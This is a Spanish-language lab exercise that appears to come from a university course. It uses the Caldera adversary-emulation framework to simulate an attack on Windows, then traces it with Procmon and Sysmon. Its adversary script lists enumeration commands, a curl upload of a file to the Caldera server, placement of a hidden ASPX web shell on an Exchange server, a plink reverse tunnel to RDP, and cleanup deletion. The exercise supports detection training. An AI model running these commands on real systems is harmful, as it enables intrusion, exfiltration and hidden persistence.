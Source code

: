 ```yaml
---
title: Clase 11 - Caldera Framework & Procmon/Sysmon (Parte 3)
date: 2024-12-05 00:20:00 -0500
categories: [Cybersecurity,Ethical Hacking,Pentesting,Exploitation Techniques]
tags: [Examen Parcial, evaluation]     # TAG names should always be lowercase
---
```


<!-- <hr style="border: none; height: 10px; background-color: #003b00;" />

# <font color="#87CEEB">Examen Parcial.</font>

<hr style="border: none; height: 10px; background-color: #003b00;" /> -->

## Lab Setup

![alt text](/assets/images/caldera-setup.png)

## Pasos

1. Desde el Kali Linux, inicie el servidor Caldera
2. Desde la máquina de Windows, gestionar Caldera. En el `browser`, ingresar a la siguiente dirección:
    ```
    http:/<IP del Kali Linux>:8888
    ```
3. Desplegar un `Agente de Caldera` en la Máquina de Windows. De ser necesario, desactivar el Firewall de Windows.
4. Crear un Adversario de Prueba. Configurar el Adversario con un Skill (Se revisa en clase). Documentación [Link](https://github.com/center-for-threat-informed-defense/adversary_emulation_library)

    ```bash
    cscript /nologo computername.vbs
    cscript /nologo username.vbs
    whoami
    hostname
    ipconfig /all
    net user /domain
    net group /domain
    net group "domain admins" /domain
    net group "Exchange Trusted Subsystem" /domain
    net accounts /domain
    net user
    net localgroup administrators
    netstat -na
    tasklist
    sc query
    systeminfo
    reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default"
    net user #{initial.target.user} /domain
    net group "SQL Admins" /domain
    nslookup #{second.target.host}
    C:\Users\#{initial.target.user}\AppData\local\SystemFailureReporter\b.exe
    curl -F "data=@C:\Users\#{initial.target.user}\AppData\Roaming\fsociety.dat" --header "X-Request-ID: #{initial.target.user}-#{paw}" #{server}/file/upload
    copy  C:\Users\#{initial.target.user}\AppData\Local\SystemFailureReporter\contact.aspx C:\Users\Public\contact.aspx
    copy C:\Users\Public\contact.aspx "\\#{second.target.ip}\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\"
    attrib +h "\\#{second.target.ip}\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\contact.aspx"
    copy  C:\Users\#{initial.target.user}\AppData\Local\SystemFailureReporter\plink.exe C:\Users\Public\Downloads\plink.exe
    exec-background C:\Users\Public\Downloads\plink.exe -no-antispoof -ssh -N -R #{caldera.server.ip}:13389:#{second.target.ip}:3389 -l #{caldera.user.name} -pw "#{caldera.user.password}" #{caldera.server.ip}
    del C:\Users\gosta\AppData\Roaming\fsociety.dat C:\Users\Public\Downloads\plink.exe;
    curl -s -H "KEY:#{server.api.key}" -H "Content-Type: application/json" -X PATCH http://#{caldera.server.ip}:8888/api/v2/agents/#{paw} -d "{\"watchdog\":1}"
    ```

5. Crear una Operación de Prueba usando el adversario recientemente creado.
6. Ejecutar la operación.
7. Analizar en Procmon (Python?).
    - Resultado de ejecutar `cscript /nologo computer.vbs`
    ```bash
    ['Process Start' 'Thread Create' 'QueryNetworkOpenInformationFile'
    'QueryIdInformation' 'FileSystemControl' 'QueryNameInformationFile'
    'Load Image' 'CreateFile' 'QueryStandardInformationFile' 'ReadFile'
    'CloseFile' 'RegOpenKey' 'RegQueryValue' 'RegCloseKey'
    'QueryBasicInformationFile' 'CreateFileMapping' 'RegQueryKey'
    'RegSetInfoKey' 'RegCreateKey' 'RegEnumKey' 'RegEnumValue'
    'DeviceIoControl' 'QueryDirectory' 'Thread Exit' 'Process Exit']
    ```

8. Crear y activar el respectivo filtro en Sysmon.

    ```bash
    <Sysmon schemaversion="4.90">
    <EventFiltering>
        
        <!-- Process Creation -->
        <ProcessCreate onmatch="include">
        <Image condition="contains">cscript</Image>
        </ProcessCreate>
        
        <!-- Process Termination -->
        <ProcessTerminate onmatch="include">
        <Image condition="contains">cscript</Image>
        </ProcessTerminate>
        
        <!-- Network Connection -->
        <NetworkConnect onmatch="include">
        <Image condition="contains">cscript</Image>
        </NetworkConnect>

        <!-- Thread Creation -->
        <CreateRemoteThread onmatch="include">
        <SourceImage condition="contains">cscript</SourceImage>
        </CreateRemoteThread>

        <!-- Image Load -->
        <ImageLoad onmatch="include">
        <Image condition="contains">cscript</Image>
        </ImageLoad>

        <!-- Registry Events -->
        <RegistryEvent onmatch="include">
        <Image condition="contains">cscript</Image>
        </RegistryEvent>

        <!-- File Creation -->
        <FileCreate onmatch="include">
        <Image condition="contains">cscript</Image>
        </FileCreate>

        <!-- Process Access -->
        <ProcessAccess onmatch="include">
        <Image condition="contains">cscript</Image>
        </ProcessAccess>

    </EventFiltering>
    </Sysmon>
    ```

9. Realizar una nueva operación.
10. Comprobar que Sysmon está filtrando los eventos deseados. Discutiremos problemas encontrados.
11. Analizar los eventos en Procmon y en Sysmon (Event Viewer).
12. Python Coding (Jupyter Notebooks).